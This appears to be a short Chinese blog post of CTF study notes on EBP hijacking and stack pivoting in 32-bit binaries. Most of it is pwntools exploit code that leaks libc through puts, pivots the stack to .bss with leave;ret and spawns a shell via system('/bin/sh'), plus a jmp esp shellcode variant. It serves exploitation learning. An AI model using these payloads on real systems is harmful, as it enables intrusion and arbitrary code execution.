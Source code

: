 ```yaml
---
layout: post
title:  "ebp"
date:   2020-01-03 19:31:29 +0900
categories: jekyll update
---
```


### ebp 劫持

#### 一、修改main_ebp -> （实质）间接修改main_return_address

main_ebp -> target_addr 

```python
main -> func(a,b)




b
a
func_return_main
				<= func_ebp = main_ebp (to fake)
				
				
				
				<= fun_esp
				
main_return_address -> target_func
main_ebp -> target_address
				
				
```

```python
paylaod = padding + p32(target_func) + p32(target_addr)
```

**即修改main_ebp ,在 main 函数返回时，leave ;	ret ;**

**leave 后 esp = ebp ，再pop ebp;那么 esp -> 返回地址。即在之前布置ebp的高4字节处改为system -> getshell**

#### 栈劫持

对于wiki上的 ret2libc 的题可以利用栈劫持(pop_ebp + leave_ret)去做(即只利用了一次栈溢出) //没有

```python
payload   = padding + (esp_padding?)  + fake_ebp

payload += p32(elf.plt["puts"]) + p32(pop_ret) + p32(elf.got["puts"])

payload += p32(elf.plt["gets"]) + p32(pop_ret) + p32(bss_addr)

payload += p32(pop_ebp_ret) + p32(bss_addr) + p32(leave_ret)
#ebp -> bss  ; mov esp,ebp  ; pop ebp  ;  ret ->system

p.sendlineafter("Can you find it!?",payload)
puts_addr = u32(p.recv(4))
libc_base = puts_addr - libc.symbols["puts"]
libc.address = libc_base
system = libc.symbols["system"]
binsh = libc.search("/bin/sh").next()

payload = "junk" + p32(system) + "junk" + p32(binsh)
p.sendline(payload)
p.interactive()
```



#### 三、 若有，可以利用 jmp  esp;

```
jmp_esp_addr = 0x8048504
shellcode = " " # 短的sc
padding = ''
payload = ''
payload +=shellcode.ljust(padding + fake_ebp ,"\x90")
payload += asm("sub esp,40;jmp esp")
hyq.sendlineafter(" ",payload)
hyq.interactive()
```

即劫持eip = esp ; 利用往栈上写指令，写shellcode 并执行 -> getshell.



参考链接：https://www.bilibili.com/video/BV1JV411m7PC?p=3